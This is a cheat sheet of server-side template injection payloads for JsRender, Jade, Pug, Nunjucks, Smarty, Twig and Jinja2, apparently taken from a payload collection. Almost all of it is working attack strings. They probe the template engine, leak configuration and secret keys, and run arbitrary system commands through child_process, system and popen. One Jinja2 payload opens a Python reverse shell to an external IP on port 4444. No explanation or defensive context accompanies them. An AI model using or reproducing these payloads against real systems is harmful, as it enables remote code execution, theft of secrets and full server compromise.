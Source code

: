 ##### JsRenderer
```javascript
{{:"a".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('<cmd>').toString()")()}}
{{:%22a%22.toString.constructor.call({},%22<XSS payload>%22)()}}
```

##### Jade
```jade
#{{7*7}}
#{root.process.mainModule.require('child_process').spawnSync('<cmd>', ['<arg>']).stdout}
```

##### PugJS
```pug
#{{7*7}}
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('<cmd>')}()}
```

##### Nunjucks
```nunjucks
{{console.log(1)}}
{{range.constructor("return global.process.mainModule.require('child_process').execSync('<cmd>')")()}}
```

#### PHP
##### Smarty
```smarty
{$smarty.version}
{php}echo `<cmd>`;{/php}
{system('<cmd>')}
```

##### Twig
```twig
{{7*7}}
{{7*'7'}}
{{_self}}
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("<cmd>")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("<cmd>")}}
{{['<cmd>']|filter('system')}}
```

#### Python
##### Jinja2
```jinja2
{{7*'7'}}  # Results in '7777777'
{{config}}
{{config.items()}}
{{settings.SECRET_KEY}}
{{settings}}
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"<cmd>\", \"<args>\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
{{request.application.__globals__.__builtins__.__import__('os')['popen']('<cmd>')['read']()}}
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('<cmd>')['read']()}}
```